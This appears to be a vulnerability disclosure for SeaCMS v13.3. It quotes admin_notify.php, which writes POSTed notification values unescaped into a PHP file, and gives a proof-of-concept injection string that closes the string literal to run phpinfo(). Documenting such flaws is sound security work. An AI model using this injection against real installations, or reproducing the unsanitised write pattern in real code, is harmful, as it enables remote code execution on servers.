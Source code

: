 ## admin_notify.php RCE

### Introduction

SeaCMS v13.3 contains a remote code execution vulnerability. This vulnerability arises from the following: although `admin_notify.php` applies some restrictions on the files being edited, attackers can bypass these restrictions and write code via concatenation, allowing authenticated attackers to exploit this vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Analysis, Debugging, and Vulnerability Exploitation
There is a command execution vulnerability in the latest version of Ocean CMS v13.3
The vulnerability file contains PHP code splicing in `0omeqd/admin_notify.php`, and is finally written to the file `data/admin/notify.php`. Here we can execute `phpinfo();` by passing parameters in closing double quotes.

```php
<?php header('Content-Type:text/html;charset=utf-8');  
require_once(dirname(__FILE__)."/config.php");  
CheckPurview();  
if($action=="set")  
{  
    $notify1= $_POST['notify1'];  
    $notify2= $_POST['notify2'];  
    $notify3= $_POST['notify3'];  
    $open=fopen("../data/admin/notify.php","w" );  
    $str='<?php  ';  
    $str.='$notify1 = "';  
    $str.="$notify1";  
    $str.='"; ';  
    $str.='$notify2 = "';  
    $str.="$notify2";  
    $str.='"; ';  
    $str.='$notify3 = "';  
    $str.="$notify3";  
    $str.='"; ';  
    $str.=" ?>";  
    fwrite($open,$str);  
    fclose($open);  
    ShowMsg("Settings saved successfully!","admin_notify.php");  
    exit;  
}  
?>
```

The web page is located at the backend management path `0omeqd/admin_notify.php`. We inject concatenated PHP code into the first notification field. The PoC is:

```r
1";phpinfo();$notify4 ="1
```

![Image1](./public/3-1.png)

After accessing the PHP path, the PHP code executes successfully.

```r
data/admin/notify.php
```

![Image1](./public/3-2.png)
